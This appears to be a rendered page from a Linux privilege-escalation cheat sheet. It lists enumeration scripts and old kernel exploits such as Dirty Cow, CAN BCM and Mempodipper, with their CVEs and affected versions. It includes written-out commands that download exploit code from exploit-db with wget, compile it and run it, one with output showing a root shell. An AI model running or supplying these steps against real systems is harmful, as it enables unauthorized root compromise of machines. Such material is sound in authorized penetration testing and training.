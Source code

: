 # Linux

## Enumeration

* Linux Enumeration: [LinEnum.sh](https://github.com/rebootuser/LinEnum)
* Linux Exploits: [linuxprivcheck.py](http://www.securitysift.com/download/linuxprivchecker.py)
* Linux Kernel Exploits: [linux-exploit-suggester.sh](https://github.com/mzet-/linux-exploit-suggester)
* Linux Kernel Exploits: [linux-exploit-suggester-2](https://github.com/jondonas/linux-exploit-suggester-2)

## Kernel

:warning: Compile options to fix errors: `-Wl`, `--hash-style=both`, `-m32`

* CVE-2016-5195 - Dirty Cow - Linux Privilege Escalation - Linux Kernel <= 3.19.0-73.8
https://dirtycow.ninja/
First existed on 2.6.22 (released in 2007) and was fixed on Oct 18, 2016

* CVE-2010-2959 - 'CAN BCM' Privilege Escalation - Linux Kernel < 2.6.36-rc1 (Ubuntu 10.04 / 2.6.32)
https://www.exploit-db.com/exploits/14814/

```
 wget -O i-can-haz-modharden.c http://www.exploit-db.com/download/14814
 $ gcc i-can-haz-modharden.c -o i-can-haz-modharden
 $ ./i-can-haz-modharden
 [+] launching root shell!
 # id
 uid=0(root) gid=0(root)
```

* CVE-2010-3904 - Linux RDS Exploit - Linux Kernel <= 2.6.36-rc8
https://www.exploit-db.com/exploits/15285/

* CVE-2012-0056 - Mempodipper - Linux Kernel 2.6.39 < 3.2.2 (Gentoo / Ubuntu x86/x64)
https://git.zx2c4.com/CVE-2012-0056/about/
Linux CVE 2012-0056

```
  wget -O exploit.c http://www.exploit-db.com/download/18411 
  gcc -o mempodipper exploit.c  
  ./mempodipper
```

## Softwares

### Privileged Services

```
ps -auxwwf | grep root
```
